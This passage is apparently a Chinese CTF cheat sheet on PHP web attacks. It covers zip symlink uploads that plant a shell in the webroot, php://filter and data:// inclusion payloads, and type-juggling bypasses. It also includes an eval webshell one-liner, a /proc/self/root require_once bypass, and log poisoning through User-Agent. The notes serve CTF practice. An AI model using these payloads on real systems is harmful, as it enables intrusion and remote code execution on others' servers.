 将 1.zip 和 2.zip 依次上传，即可将 1.php 映射到/var/www/html 目录下

先将一个软连接解压到/tmp/uploads/ 然后建立一个相同软连接的名字的目录里面写 shell

然后在上传 zip。

那么会解压的时候 相对路径是 xxx/1.php 而 xxx 已经在/tmp/uploads 并且指向了/var/www/html/

那么最终解压的路径就会变成 /var/www/html/1.php

## php 相关

1.  .hg 源码泄漏 .git 源码泄漏 .DS_Store 文件泄漏，还有以.phps .bak 结尾的网页
2.  弱类型 "1b" == 1
3.  空数组, sha1 加密相同
4.  data://text/plain 传输内容, ?text=data://text/plain,I have a dream
5.  php://input 传输内容, ?text=php://input 改为 POST 请求, 在 body 传 I have a dream
6.  获取文件内容 php://filter/ , ?file=php://filter/convert.base64-encode/resource=next.php
    file=php://filter/string.rot13/resource=include.php
    有时要把尾部的 php 去掉

7.  目录扫描
8.  文件上传

    6.  .user.ini 绕过
    7.  脚本语言绕过 `<script language='php'> phpinfo();</script>`

9.  %00 截断 <5.3
10. 参数测试 ?no=1, 添加`'`, ?no=1' 测试
11. \$\_SESSION -- `$password==$\_SESSION['password']`, 抓包把 PHPSESSID 置空传 password= 空即可
    session.upload_progress.cleanup 文件包含，见下面
12. phar 反序列化漏洞
13. PHP 通过文件名注入。
14. PHP 开启短标签即 short*open_tag=on 时，可以使用<?=\$*?>输出变量 即 `<?=@eval($_POST['a']);?>`
15. 条件竞争 --- CTFshow 红包题第六弹
16. require_once 绕过 1. session.upload_progress.cleanup 竞争 2. ?file=php://filter/convert.base64-encode/resource=/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/var/www/html/flag.php
17. 执行漏洞

    assert 字符串参数当作 php 参数执行。 assert("phpinfo()"), 下面有详解
    preg_replace() php5.5 /e 代码执行漏洞, 与双引号执行
    create_function 见\_writeup_web.md
    https://www.gem-love.com/ctf/770.html
    call_user_func
    call_user_func_array
    `反引号执行

18. 查看 rce 章节
19. [escapeshellarg](https://www.php.net/manual/zh/function.escapeshellarg.php#99213) 绕过, 使用非 ascii 字符比如 fl%7gag 绕 flag
20. 未过滤?和/ ?shell=/???/????64 /???????? -> /bin/base64 /flag.txt , 同 ctfshow web55
21. session 文件包含 web_php_session_include.py
22. 日志包含 ?c=/var/log/nginx/access.log, 如果包含 user-agent 请求头,写入一句话木马
    蚁剑连接/var/log/nginx/access.log
